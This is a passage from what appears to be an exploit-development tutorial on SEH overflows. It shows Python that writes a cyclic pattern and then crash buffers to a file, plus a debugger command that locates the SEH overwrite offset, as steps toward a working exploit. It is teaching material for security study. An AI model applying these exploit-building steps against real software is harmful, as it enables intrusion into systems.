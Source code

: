 ```
buf += b"7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6"
buf += b"Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5C"
buf += b"j6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm"
buf += b"5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4"
buf += b"Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3C"
buf += b"s4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv"
buf += b"3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2"
buf += b"Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1D"
buf += b"b2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De"
buf += b"1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0"
buf += b"Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9D"
buf += b"k0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm"
buf += b"9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7Dp8"
buf += b"Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7D"
buf += b"s8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv"
buf += b"7Dv8Dv9"

f.write(buf)
f.close()
```
Run the python program and copy the output into the copy buffer and pass it into the application again.
It should cause a crash. Run the following command to find out how far into the pattern the SEH handler
was overwritten.

**Command:**
```
ERC --FindNRP
```  
The output should look like the following image. The output below indicates that the application is also
vulnerable to a standard buffer overflow as was noted earlier.

<p align="center"><img src="/images/basics-of-exploit-development-2-seh-overflows/FindNRP.PNG"/></p> 
<p align="center"><i>FindNRP Identifies the point where the SEH record was overwritten.</i></p>

The output of FindNRP indicates that after 1008 characters the SEH record was overwritten (this will be
~900 if you are on Windows 7) .We will now test this by filling both the SEH handler pointer and next
SEH record pointer with specific characters.
```
f = open("crash-3.txt", "wb")

buf = b"\x41" * 1008
buf += b"\x42" * 4
buf += b"\x43" * 4
buf += b"\x44" *1984

f.write(buf)
f.close()
```
After providing the output to the application the SEH tab should show the following results.
SEH Overwritten with B’s and C’s
<p align="center"><img src="/images/basics-of-exploit-development-2-seh-overflows/SEH-Overwrite-Bs+Cs.PNG"/></p> 